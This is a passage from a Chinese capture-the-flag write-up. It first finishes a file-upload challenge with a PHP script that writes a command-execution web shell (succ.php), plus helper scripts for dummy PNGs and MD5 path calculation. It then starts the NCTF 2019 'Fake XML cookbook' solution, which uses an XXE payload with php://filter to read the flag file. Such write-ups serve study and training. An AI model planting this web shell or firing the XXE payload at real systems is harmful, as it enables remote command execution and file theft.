 
使用的攻击脚本如下：

```php
<?php
        file_put_contents("../succ.php", '<?php system($_GET["cmd"]); ?>');
?>
```

构建无用 png 的脚本如下：

```python
# create.py
import os

for i in range(100):
    fn = 'a{}.png'.format(i)
    os.system('echo "12" > {}'.format(fn))
```

计算相关 md5 路径的脚本如下:

```python
s = open('zipfile/z.zip', 'rb').read()
import base64
b64 = base64.b64encode(s)
import urllib.parse
print(urllib.parse.quote(b64))

import hashlib

md51 = hashlib.md5(b64).hexdigest()
md52 = hashlib.md5(('/tmp/' + md51).encode('ascii')).hexdigest()

print(md51)
print(md52)
```

---

## [NCTF 2019]Fake XML cookbook

https://www.nssctf.cn/problem/1256


* 考点：xml
* 工具：yakit
  
在yakit中代理打开网页，获取发送的请求包，发现发送了username和password这两个字段，并且当我们发送了请求包后，会回显username字段的内容，所以这里可以通过编写xml外部实体注入实现文件读取:

可以先编写下面的这个payload先获取登录的后端代码：(原理上也可以直接由这一步得到flag)
```php
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note [
  <!ENTITY admin SYSTEM "php://filter/read=convert.base64-encode/resource=./flag">
  ]>
<user><username>&admin;</username><password>123456</password></user>
```
